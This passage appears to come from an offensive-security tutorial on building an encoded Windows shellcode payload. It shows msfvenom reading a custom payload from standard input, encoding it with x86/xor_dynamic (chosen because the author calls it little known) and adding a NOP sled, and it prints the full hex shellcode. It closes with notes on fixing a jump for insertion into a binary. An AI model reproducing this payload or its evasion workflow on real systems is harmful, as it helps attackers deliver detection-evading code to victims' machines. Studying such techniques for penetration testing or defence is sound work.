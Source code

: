 In this case, I chose the encoder x86/xor_dynamic, as it is very effective, and it is not very well known.

```term
root@whitecr0wz:~# python custom.py | msfvenom -p - --platform windows -a x86 -e x86/xor_dynamic -n 5 -f hex 
Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/xor_dynamic
x86/xor_dynamic succeeded with size 393 (iteration=0)
x86/xor_dynamic chosen with final size 393
Successfully added NOP sled of size 5 from x86/single_byte
Payload size: 398 bytes
Final size of hex file: 796 bytes
27f52ff83feb235b89dfb06ffcae75fd89f989de8a0630074766813f0641740846803e6f75eeebeaffe1e8d8ffffff276f47bbdbcfa527272747aec216e743ac7717ac752bac7533ac550f28906d0116d88b1b465b250b07e
6e82a26e0c5d57570ac7537ac6d1bac6b365fc46f26f676ac7e0726f4ac6e3fc41d6eac13ac26f116d88be6e82a26e01fc752d1245adf1c5a0352c37fac7f0326f441ac2b6cac7f3b26f4ac23ac26f7ae6303037c7c467e7d
76d8c778787dac35ccaa7a4f141527274f50541578734f6b500120d8f29fb72627270ee373774f0ea74c27d8f24d2f7e77c5da677767774fcd28f8c7d8f2b04f2527040faec14d3771704fe5fc1040d8f2704f90ce1fd8d8f
2704f53cb1cc6d8f270b04f52496a46d8f24f444a4327aec470707016d14d357e71c5da41e063031b2626aa630337e127637377717171617169717174714f5eeb18a1d8f2aec7b77161d8174f2fa03a47d8f29cd79285714f
81b29abad8f21b215b2da7dcc752229c603455484d2774a6e327252727ba464f9f586e27ce9dd7d2d82d0641
root@whitecr0wz:~# 
```

As seen, the payload has grown in terms of size, this will make the last JMP useless, we will take care of it later on.

The entire chain of characters is removed with "Fill with 00".
